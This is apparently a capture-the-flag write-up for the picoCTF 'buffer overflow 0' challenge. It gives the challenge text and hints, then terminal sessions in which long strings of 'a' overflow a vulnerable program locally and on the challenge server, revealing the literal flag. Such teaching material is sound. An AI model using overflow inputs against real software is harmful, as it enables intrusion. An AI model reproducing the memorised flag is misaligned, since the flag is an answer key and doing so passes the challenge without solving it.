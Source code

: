 # buffer overflow 0
#### Description
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/521/vuln). You can view source [here](https://artifacts.picoctf.net/c/521/vuln.c). And connect with it using: `nc saturn.picoctf.net 65355`

## Hints
### 1
How can you trigger the flag to print?
### 2
If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
### 3
Run `man gets` and read the BUGS section. How many characters can the program really read?


## Solucion


```bash
┌──(masterfer㉿PcMaster)-[~/Downloads/PicoCTF/BinaryExploita22/bufferover0]
└─$ ./vuln
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
flag(dumie)

                                                                                                                           
┌──(masterfer㉿PcMaster)-[~/Downloads/PicoCTF/BinaryExploita22/bufferover0]
┌──(masterfer㉿PcMaster)-[~/Downloads/PicoCTF/BinaryExploita22/bufferover0]
└─$ ./vuln
Input: asdasdasd
The program will exit now




┌──(masterfer㉿PcMaster)-[~/Downloads/PicoCTF/BinaryExploita22/bufferover0]
└─$ nc saturn.picoctf.net 65355
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}


```


## Referencias